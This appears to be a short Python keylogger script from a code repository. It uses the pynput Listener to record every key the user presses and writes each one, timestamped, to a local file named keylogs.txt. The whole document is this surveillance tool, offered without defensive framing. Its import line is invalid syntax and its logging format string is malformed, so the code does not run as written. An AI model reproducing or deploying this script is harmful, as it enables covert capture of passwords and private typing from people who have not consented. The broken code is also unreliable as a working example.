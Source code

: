 # python_scripts

# This script is use for storing the hits key on the keyboard by the user.

import pynput.keyboard import Key, Listener
import logging
log_dir=""
logging.basicConfig(filename=(log_dir+ "keylogs.txt"), level=logging.DEBUG, format='%(asctime)s: % (message)s')

def on_press(key):
    logging.info(str(key))
with Listener (on_press=on_press) as listener:
    listener.join()
